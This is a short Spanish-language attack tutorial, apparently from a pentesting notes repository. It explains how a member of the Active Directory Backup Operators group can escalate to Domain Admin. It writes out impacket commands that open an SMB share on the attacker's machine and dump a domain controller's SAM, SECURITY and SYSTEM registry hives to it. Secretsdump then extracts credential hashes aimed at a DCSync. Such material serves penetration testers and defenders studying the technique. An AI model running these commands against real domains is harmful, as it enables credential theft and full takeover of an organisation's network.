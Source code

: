 # Backup Operator to Domain Admin Attack

### [Video](https://youtu.be/wUy2VXL2y-w)

## ¿Qué es?

- Es un ataque que permite a un atacante escalar privilegios de **Backup Operator** a **Domain Admin**.
- Se basa en la capacidad de los operadores de backup de realizar copias de seguridad de los controladores de dominio.
- Los operadores de backup pueden leer y escribir en los controladores de dominio.

## Ataque explicado
![alt text](./backupOperator.png)
- En este ejemplo el usuario **melissa** es miembro de **Backup Operators**.

### Metodo 1 con impacket
- Abris un smbserver con impacket
    - `impacket-smbserver -smb2support "share" .`
- Luego con el usuario backup operator podes hacer un backup de los archivos del DC
    - `impacket-reg domain/melissa@IP-DE-COMPUTADORA-QUE-MELISSA-PUEDE-ACCEDER backup -o \\IP-DE-TU-MAQUINA\share`
- Entonces con secretsdump podes obtener las credenciales de los usuarios
    - `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL`
    - Y con esto es muy probable que nos de un hash con un usuario que nos deje hacer un DCSync.